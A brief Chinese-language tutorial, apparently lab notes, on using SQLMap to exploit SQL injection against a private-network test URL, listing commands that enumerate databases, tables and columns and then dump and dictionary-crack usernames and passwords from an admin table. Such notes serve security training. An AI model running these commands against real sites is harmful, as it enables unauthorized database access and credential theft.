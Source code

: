 # SQLMap应用
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求

SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令
![](/assets/AF1C4C8C3124CC854FBE3962B95BFA39.png)

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1"
-u参数指定目标注入地址,为了规范，目标注入地址尽量用""引起来

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" --dbs
python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" --current-db
--current-db:列当前数据库

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" -D sqlinject --tables  
-D dbname:指定数据库名称
--tables:列出某数据库上的所有表

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" -D sqlinject -T admin --columns
-D dbname:指定数据库名称
-T tablename:指定某数据表名称
--columns:列出指定表上的所有列

python sqlmap.py -u "http://172.16.12.2/inject.php?id=1" -D sqlinject  -T admin -C id,username,password --dump
-D dbname:指定数据库名称
-T tablename:指定某数据表名称
-C Cnmme:指定列名
--dump:导出列里面的字段

然后回车默认通过字典来破解，选择1利用自带的字典暴力破解